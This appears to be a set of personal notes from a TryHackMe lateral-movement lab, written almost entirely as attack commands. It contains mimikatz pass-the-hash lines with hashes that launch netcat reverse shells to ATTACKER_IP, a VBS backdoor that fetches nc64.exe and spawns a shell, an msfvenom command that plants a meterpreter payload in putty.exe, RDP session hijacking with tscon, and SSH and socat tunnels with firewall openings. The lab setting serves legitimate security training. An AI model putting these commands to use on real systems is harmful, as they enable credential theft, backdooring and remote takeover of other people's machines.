 privilege::debug
sekurlsa::ekeys
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes128:b65ea8151f13a31d01377f5934bf3883 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"
sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /aes256:b54259bbff03af8d37a138c375e29254a2ca0649337cc4c73addcd696b4cdb65 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"



# Abusing User Behaviour 

Backdooring .vbs Scripts

CreateObject("WScript.Shell").Run "cmd.exe /c copy /Y \\10.10.28.6\myshare\nc64.exe %tmp% & %tmp%\nc64.exe -e cmd.exe <attacker_ip> 1234", 0, True

Backdooring .exe Files

msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=<attacker_ip> lport=4444 -b "\x00" -f exe -o puttyX.exe

RDP hijacking

close rdp session without logout.


query users
query user
session with a Disc state has been left open 
run cmd as Administrator
PsExec64.exe -s cmd.exe

tscon 3 /dest:rdp-tcp#6



# Port Forwarding 

SSH Tunnelling

ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N
ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N
netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80


ssh tunneluser@ATTACKER_IP -R 8888:thmdc.za.tryhackme.com:80 -L *:6666:127.0.0.1:6666 -L *:7777:127.0.0.1:7777 -N

Port Forwarding With socat
socat TCP4-LISTEN:1234,fork TCP4:1.1.1.1:4321
socat TCP4-LISTEN:3389,fork TCP4:3.3.3.3:3389
netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389
